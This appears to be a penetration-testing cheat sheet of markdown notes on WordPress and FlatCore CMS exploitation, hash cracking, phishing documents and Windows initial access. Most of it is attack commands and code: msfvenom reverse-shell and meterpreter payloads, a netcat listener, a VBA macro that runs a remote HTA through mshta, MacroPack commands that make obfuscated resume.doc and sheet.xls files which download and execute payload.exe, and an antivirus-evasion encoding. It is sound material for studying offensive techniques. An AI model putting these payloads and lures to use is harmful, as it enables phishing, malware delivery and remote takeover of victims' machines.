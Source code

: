 ### Wordpress 6.1

- Use module `use auxiliary/scanner/http/wordpress_scanner` for scanning vuln plugin
- The specific version of Duplicator plugin have a vuln to read a file. Use `msf` module to exploit

### Httpd Apache - FlatCore CMS

The version 2.0.7 have server side vuln [Exploit-50262](https://www.exploit-db.com/exploits/50262)
- Download and run with python3 (Must have creds)

## Note
- `netstat -antp` Check open port on host
- Doesn't know what type of hash: `hash-identifier <hash>`
- Cracking `Des(Unix)` - `john --format=descrypt hash.txt`

### Pretext Phishing document

Resource:
- [Office phish template](https://github.com/martinsohn/Office-phish-templates)

### HTML Application

Application using HTML, CSS, JS to build, run in a special environment provide by Browser(IE, Edge)
- Can run independent on Windows
- IE (Internet Explorer) automatic execute HTML app with `mshta.exe` 
  - Always executed with security context of the current user.
  - HTA can have access to the local filesystem, registry and can execute ActiveX controls.
  - Allow HTA to run outside the constrains of the web browser
- The attack vector is typically classified as a Drive by Compromise technique
- They can be use for persistence and evasion

Simple HTA app

```html
<html>
    <head>
        <script>
            var payload = 'calc.exe'
            new ActiveXObject('Wscript.Shell').Run(payload)
        </script>
    </head>
    <body>
        <h1> HTA POC</h1>
        <script>
            self.close()
        </script>
    </body>
</html>
```

**Attack**:
- Generate hta payload `msfvenom -p windows/shell_reverse_tcp LHOST=<Host_ip> LPORT=4444 -f hta-psh -o shell.hta
- Set up listener `nc -nvlp 4444`
- Run the hta app on victim machine
  - Or we can create a marco to download the app and automatic open it

```vb
Sub ExecuteHTA()
    Dim url As String
    Dim command As String

    url = "URL_TO_HTA"
    command = "mshta.exe " & url

    Shell command, vbNormalFocus
End Sub
```

### Automating Marco development with MarcoPack

[Marco Pack](https://github.com/sevagas/macro_pack)

- Have obfuscate feature
- Support a lot of format

How to use:
- `marco_pack --list-formats` List supported format
- `echo "calc.exe" | marco_pack.exe -t CMD -o -G "test.doc"` Create marco open calc.exe in the `test.doc` file
  - `-o` Obfuscate
- `--list-templates` List all template of payload

Create payload with msfvenom
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 | .\marco_pack.exe -o -G "resume.doc"` Direct inject payload to marco of file
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 -f exe > payload.exe` -> Host the payload
  - `echo "http:\\Host_ip\payload.exe" "payload.exe" | .\marco_pack.exe -o -G "sheet.xls"` -> Generate the document to download payload and execute it

## Bypass AV

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 > rTCPenc.exe`

## Download from windows

`iwr -UseBasicParsing -Uri http://<Your-IP>/Dwrite.dll -OutFile .\Dwrite.dll`
